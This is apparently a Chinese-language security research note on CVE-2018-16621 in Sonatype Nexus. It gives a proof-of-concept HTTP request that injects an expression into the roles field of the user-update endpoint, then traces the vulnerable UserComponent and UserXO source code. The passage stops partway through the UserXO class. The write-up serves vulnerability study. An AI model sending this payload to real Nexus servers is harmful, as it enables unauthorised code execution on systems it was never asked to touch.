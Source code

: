 ### CVE-2018-16621
Ref: https://securitylab.github.com/research/bean-validation-RCE/

POC:
```
POST /service/extdirect HTTP/1.1
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
Content-Type: application/json
Cookie: NXSESSIONID=340d8fd9-8d0a-48a8-a120-1bef3b657ee2

{"action":"coreui_User","method":"update","data":[{"userId":"admin","version":"2","firstName":"admin","lastName":"User","email":"admin@example.org","status":"active","roles":["exp|${66*6}|"]}],"type":"rpc","tid":11}
```
Cookie在用户登陆后抓取数据包获得。如果Cookie错误，返回内容会报错`"message":"User is not permitted: nexus:users:update"`。

根据路由分析，`coreui_User`这个action对应`org.sonatype.nexus.coreui.UserComponent`。对应的方法`update()`内容如下
```java
  @DirectMethod
  @Timed
  @ExceptionMetered
  @RequiresAuthentication
  @RequiresPermissions('nexus:users:update')
  @Validate(groups = [Update.class, Default.class])
  UserXO update(@NotNull @Valid final UserXO userXO) {
    convert(securitySystem.updateUser(new User(
        userId: userXO.userId,
        version: userXO.version,
        source: DEFAULT_SOURCE,
        firstName: userXO.firstName,
        lastName: userXO.lastName,
        emailAddress: userXO.email,
        status: userXO.status,
        roles: userXO.roles?.collect {id ->
          new RoleIdentifier(DEFAULT_SOURCE, id)
        }
    )))
  }
```
参数中标注了`@Valid`，很容易想到是否存在Spring的`Hibernate-Validator`配置导致的表达式注入。关于该配置导致的问题见：https://www.jianshu.com/p/55c2b0641977

搜索nexus的system文件夹下的第三方库，找到`hibernate-validator-5.1.2.Final.jar`，那么很可能就存在表达式注入。传参时需要符合`UserXO`中的参数。`UserXO`代码如下
```java
@ToString(includePackage = false, includeNames = true)
class UserXO
{
  @NotBlank
  @UniqueUserId(groups = Create)
  String userId

  @NotBlank(groups = Update)
  String version

  // Null on create
  String realm

  @NotBlank
  String firstName

  @NotBlank
  String lastName

```